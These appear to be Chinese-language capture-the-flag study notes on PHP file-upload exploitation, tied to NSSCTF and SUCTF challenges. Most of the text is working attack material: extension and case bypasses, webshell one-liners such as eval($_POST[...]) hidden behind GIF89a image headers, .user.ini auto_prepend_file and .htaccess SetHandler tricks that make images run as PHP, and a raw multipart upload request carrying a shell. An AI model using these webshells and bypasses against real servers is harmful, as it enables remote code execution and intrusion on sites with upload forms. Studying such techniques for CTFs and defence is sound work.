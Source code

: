 文件上传

[TOC]

###### 尝试特殊解析漏洞：

php3,php5,phtml ；

 大小写绕过：PHP,pHP；

 点绕过：php.； 

空格绕过：php空格；

::$$DATA绕过：shell.php::$$DATA；

双后缀：shell.phphpp；

单循环绕过：shell.php. .；

假文件名绕过：shell.php/.

```
.php4
.php5
.phtml
.phpx
.jpg.php
1.php/.
.htaccess
.user.ini
pht, phpt, phtml, php3,php4,php5,php6
```

短标签：

```
GIF89a
<script language="php">eval($_POST['shell']);</script> 

//或者
GIF89a
<script language="php">eval($_POST['shell']);
show_source("/flag");
</script>

```

upload/ea97fa3cc6ff6c26f05398cdcc7148af/muma.jpg

```
#define height 1
#define width 1
GIF89a
 <?= @eval($_POST['a']);?>
```

###### .user.ini，1

[[suctf 2019\]checkin | NSSCTF](https://www.nssctf.cn/problem/756)

解：

[[SUCTF 2019\]CheckIn（.user.ini）_checkin .user.ini-CSDN博客](https://blog.csdn.net/qq_44657899/article/details/104682702?ops_request_misc=&request_id=&biz_id=102&utm_term=[suctf 2019]checkin&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduweb~default-7-104682702.142^v96^pc_search_result_base1&spm=1018.2226.3001.4187)

这道题是说，上传一个图片马，然后还有个.htassess文件，把jpg,当作php来执行。.user.ini包含一下代码

```
GIF89a
auto_prepend_file=1.jpg
```

这个函数的意思是在在执行文件前自动包含1.jpg，而1.jpg忧被当作php执行，那么就可以了。

好像不上传.htaccess也可以.

```
//AddType application/x-httpd-php .png
SetHandler application/x-httpd-php
这个才是最牛的



<FilesMatch "evil.jpg">
SetHandler application/x-httpd-php
</FilesMatch>
```

md，这也行

![1701916633008](C:\Users\86176\AppData\Roaming\Typora\typora-user-images\1701916633008.png)

```
Referer: http://node4.anna.nssctf.cn:28059/
Upgrade-Insecure-Requests: 1

-----------------------------76210565836549306893686179906
Content-Disposition: form-data; name="file"; filename="muma.pht"
Content-Type: image/jpeg

BM<?=`cat /*`;
-----------------------------76210565836549306893686179906
Content-Disposition: form-data; name="submit"
```

最short的一句话木马

/var/www/html/upload/796a923b91d15f2d7bf457391d2b4d8d/muma.jpg

###### .user.ini配置文件攻击，2

先上传一个.user.ini配置文件，auto_prepend_file=a.txt

再上传a,txt会自动在每个文件打开时自动包含进去。

###### Apache解析漏洞

1.多后缀文件解析漏洞
在以上Apache配置下，当使用AddType（非之前的AddHandler）时，多后缀文件会从最右后缀开始识别，如果后缀不存在对应的MIME type或Handler，则会继续往左识别后缀，直到后缀有对应的MIME type或Handler。x.php.xxx文件由于xxx后缀没有对应的handler或mime type，这时往左识别出PHP后缀，就会将该文件交给application/x-httpd-php处理

2.Apache CVE-2017-15715漏洞
在HTTPD 2.4.0到2.4.29版本中，FilesMatch指令正则中“$”能够匹配到换行符，可能导致黑名单绕过

zip上传。

这个来在N1BOOK里面，在zip中写入穿越目录，可以将一句话木马写到根目录

#### os.path.join()

[[NISACTF 2022\]babyupload wp_ctf nsb uploader-CSDN博客](https://blog.csdn.net/Leaf_initial/article/details/130118702)